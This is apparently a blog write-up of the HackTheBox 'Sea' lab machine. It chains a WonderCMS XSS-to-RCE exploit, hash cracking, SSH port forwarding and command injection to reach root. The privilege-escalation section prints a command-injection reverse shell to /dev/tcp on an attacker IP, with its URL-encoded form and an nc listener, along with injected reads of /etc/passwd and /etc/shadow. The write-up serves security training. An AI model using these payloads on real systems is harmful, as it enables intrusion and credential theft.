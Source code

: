 ```yaml
---
title: HackTheBox -Sea
author: Bonface
date: 2024-12-29 00:00:00 +0000
categories:
  - HackTheBox
  - Machines
tags:
  - HackTheBox
  - linux
  - rustscan
  - cms
  - ssh
  - port_forwarding
  - burpsuite
  - command_injection
image:
  path: /assets/img/HTB/Machines/sea/sea01.png
  alt: Sea.htb
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---

Sea is a Linux-based machine that requires exploiting multiple vulnerabilities to achieve root access.

For the initial foothold, I identified a vulnerability in Wonder CMS, specifically a Cross-Site Scripting (XSS) attack vector. Using XSS, I performed cookie stealing and session token theft to bypass restrictions, gaining administrative access. This allowed me to install a malicious module, resulting in Remote Code Execution (RCE) on the system.

To escalate privileges, I exploited a locally running service inaccessible from external networks. Using port forwarding, I accessed a web application under development, which revealed a command injection vulnerability. Leveraging this flaw, I successfully escalated privileges and achieved root access to the machine.

# Port Scanning
Using `Rustscan`, I discovered that two TCP ports were open on the target system. This initial port scan provided valuable insight into the services potentially running on the system and helped guide the subsequent penetration testing efforts.

```bash
rustscan -a 10.10.11.28 --ulimit 5000  -t 3000 -- -sV -sC

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa 
...
| ecdsa-sha2-nistp256 
...
|_ssh-ed25519 
...

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Here we have ports 22 for ssh and 80 for a web server.I prioritized starting the investigation with the HTTP protocol on port 80. Focusing on this port allowed for an initial assessment of the web services and applications running on the system, which subsequently guided further exploration and testing of other identified ports.

# Web Enumeration
## Exploring the service
I explored the service using my browser and discovered that it was relatively simple. The service featured a basic home page and another page with a form designed for registering participants in competitions.  
![](../assets/img/HTB/Machines/sea/sea1.png)


## Directory fuzzing
I decided to perform directory fuzzing in the background as i search for an exploit, using `Feroxbuster`, a powerful tool for discovering hidden directories and files on a web server. By running this tool, I was able to systematically probe the server for directories that might not be immediately visible or accessible through standard navigation. This approach helped uncover additional endpoints or resources that could potentially contain vulnerabilities or sensitive information, providing a more comprehensive understanding of the web application's structure and security posture.

```bash
feroxbuster -u http://sea.htb/ -C 404,500
```
![](../assets/img/HTB/Machines/sea/sea4.png)  
The results from `Feroxbuster` raised a suspicion that the target might be a CMS, given the
presence of directories such as `plugins`, `themes`, and `data`.From the source code we can recall the theme being used.
![](../assets/img/HTB/Machines/sea/sea5.png)
Found it challenging to identify the CMS. After researching numerous sites and repositories, I finally found the [exact](https://github.com/robiso/bike) one.
![](../assets/img/HTB/Machines/sea/sea6.png)

While exploring the target, I came across a form for competition registration.
![](../assets/img/HTB/Machines/sea/sea3.png)

The website input field immediately caught my attention. This field seemed potentially vulnerable, as it could be a point of entry for various types of attacks, such as `Server Side Request Forgery(SSRF)`, `Cross-Site Scripting (XSS)`, or even `Remote Code Execution (RCE)` if not properly validated and sanitized.

## Searching exploits
After conducting some reconnaissance, I discovered that the CMS is vulnerable to Cross-Site Scripting (XSS). In addition, I found a public exploit indicating that WonderCMS is susceptible to XSS, which can be leveraged to achieve Remote Code Execution (RCE). The exploit can be found [here](https://github.com/0xDTC/WonderCMS-4.3.2-XSS-to-RCE-Exploits-CVE-2023-41425).
# Exploitation

Here is the workflow of the exploit:
1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

![](../assets/img/HTB/Machines/sea/sea7.png)

The exploit runs like a charm :) and now we have shell.Upon doing some enumeration i get this:
![](../assets/img/HTB/Machines/sea/sea8.png)
Lets save the hash in a file `hash.txt` then use john to crack the hash.
![](../assets/img/HTB/Machines/sea/sea9.png)
To fix the errors we remove the back slashes and try again.
![](../assets/img/HTB/Machines/sea/sea10.png)
```
username : amay
password : mychemicalromance
```

Now we can easily log in to ssh as `amay`
```bash
ssh amay@10.10.11.28
```
![](../assets/img/HTB/Machines/sea/sea11.png)

# Privilege Escalation
To acquire super user privileges we stumble around with some commands untill we land on this `netstat -tuln` 
![](../assets/img/HTB/Machines/sea/sea13.png)  
we use this command to detect potentially interesting services or custom applications running on the machine.

![](../assets/img/HTB/Machines/sea/sea12.png)
To access the service running on this port `8080` , let's do some port forwarding.

## Port forwarding
For this we shall use SSH Tunneling that will forwards traffic from the target machine through the SSH server to our attacker machine.
```bash
ssh -L 8090:127.0.0.1:8080 amay@10.10.11.28
```

Scanning the port with `nmap` 
```bash
nmap -sC -sV -vv -p8090 127.0.0.1

.....
PORT     STATE SERVICE REASON         VERSION
8090/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.23)
| http-auth: 
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Restricted Area
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).

```

## Service Enumeration
The service is a PHP-based application running on a built-in PHP CLI server, possibly for testing or lightweight development purposes.Let's access it using our browser.
![](../assets/img/HTB/Machines/sea/sea14.png)  
With a simple password reuse we bypass the authentication.
![](../assets/img/HTB/Machines/sea/sea15.png)  
The service seems to be running some shell commands, thus possibility of  command injection.To exploit this will intercept the request using burp suite.
![](../assets/img/HTB/Machines/sea/sea17.png)

## Service Exploitation
From the original request we can see that the commands are url encoded thus lets craft our payload in the same way.
```

%2Fetc%2Fpasswd
%2Fetc%2Fshadow

```

![](../assets/img/HTB/Machines/sea/sea18.png)

After  encoding the payload,the script runs perfectly and we can read both the `/etc/passwd` and the `/etc/shadow` this also confirms that the commands are run as root.To the the root shell we make use of a reverse bash script.

```bash
# the script
;bash -c "sh -i >& /dev/tcp/10.10.16.58/1234 0>&1"

# url encoded
%3bbash+-c+"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.58%2F1234%200%3E%261"||cat

# listener
nc -nlvp 1234
```

![](../assets/img/HTB/Machines/sea/sea20.png)

![](../assets/img/HTB/Machines/sea/sea.png)